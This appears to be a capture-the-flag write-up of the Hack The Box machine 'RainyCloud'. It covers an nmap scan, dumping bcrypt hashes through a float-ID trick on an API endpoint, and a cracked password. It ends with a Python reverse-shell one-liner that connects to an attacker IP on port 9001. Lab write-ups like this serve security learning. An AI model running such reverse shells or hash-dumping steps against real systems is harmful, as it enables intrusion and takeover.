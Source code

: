 # RainyCloud

---

## Enumeration & Foothold

- nmap TCP Scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48dde361dc5d5878f881dd6172fe6581 (ECDSA)
|_  256 adbf0bc8520f49a9a0ac682a2525cd6d (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://rainycloud.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Found `dev.` subdomain but uses some IP filters, probably gonna be used when i get foothold or an SSRF vulnerability
- User `jack` may exist on the machine, got it form `/api/list`
- On logging in, and checking the page source I found:

```html
<!-- RainyCloud-4: TODO - Remove debug errors from prod -->
<h4> Error - Login Incorrect! <!-- /var/www/rainycloud/./app.py:288 --></h4>
```

- I left this error thing I went back to play with the `/api` path, and I was able to dump some hashes from `/api/user/1.0`, with a float type number, ints get filtered out. So i got all the hashes and tried to crack them.
- Spent quite a while to crack these bcrypt hashes but finally could crack gary's password:

```
rubberducky      (gary)
```

- Now I can login into the webapp, and I can start a docker container image.

```
Container Name	Port	Status	Image					Actions
gary			40001	Running	alpine-python:latest	    
```

- There's an option to execute commands so I used it to get a reverse shell using the following command:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.2",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

